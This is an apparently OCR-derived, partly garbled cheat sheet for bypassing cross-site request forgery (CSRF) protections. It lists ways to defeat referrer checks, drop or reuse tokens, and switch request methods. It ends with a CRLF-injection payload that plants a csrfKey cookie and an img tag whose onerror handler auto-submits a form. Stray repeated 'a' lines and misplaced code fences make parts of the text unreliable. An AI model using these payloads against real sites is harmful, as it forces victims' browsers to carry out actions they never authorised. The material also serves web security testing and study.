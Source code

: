 <h1>Cross-site request forgery (CSRF)</h1>
<h3>Test first:</h3>
<p><code>Referrer: https://example.com</code></p>
<p>if:</p>
<p>"Invalid referrer header" so:</p>
a
a
a
a
a
a
```js
<p><code>Referrer-Policy: unsafe-url</code></p>
```
<p>"Invalid referrer validation" so:</p>
<p><code><meta name="referrer" content="no-referrer"></code></p>
<p>else:</p>
<p>csrf without csrf protection - EZ</p>
<p>csrf validation depends on request method  - Change post to get</p>
<p>csrf delete csrf parameter or value.</p>
<p>csrf - drop request and test the token in other session </p>
<p>csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key</p>
<p><code><img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()"></code></p>

